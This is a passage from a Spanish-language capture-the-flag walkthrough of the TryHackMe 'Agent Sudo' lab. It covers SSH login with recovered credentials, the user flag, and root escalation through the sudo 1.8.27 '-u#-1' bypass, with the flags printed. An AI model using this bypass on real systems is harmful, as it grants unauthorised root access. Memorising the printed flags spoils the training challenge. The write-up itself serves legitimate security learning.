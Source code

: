 Estas son las credenciales de SSH y con esto conseguiremos acceso a la máquina
```bash
username: james
password: hackerrules!
```
```bash
ssh james@10.10.168.111
```
Una vez hayamos accedido podremos encontrar la flag del usuario
```bash
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
```

# Privilege escalation
Vamos a usar suod -l para ver que permisos tiene el usuario james
```bash
james@agent-sudo:~$ sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
Si buscamos los permisos (ALL, !root) /bin/bash en Google, lo primero que aparecerá es una vulnerabilidad conocida como 'Security Bypass' en sudo 1.8.27
```bash
sudo -u#-1 /bin/bash
```
Una vez obtenido acceso como root, podremos navegar al directorio de root y encontrar el archivo 'root.txt', que contendrá la flag del root y estará asociado al usuario 'R'
```bash
root@agent-sudo:~# cd /root/
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```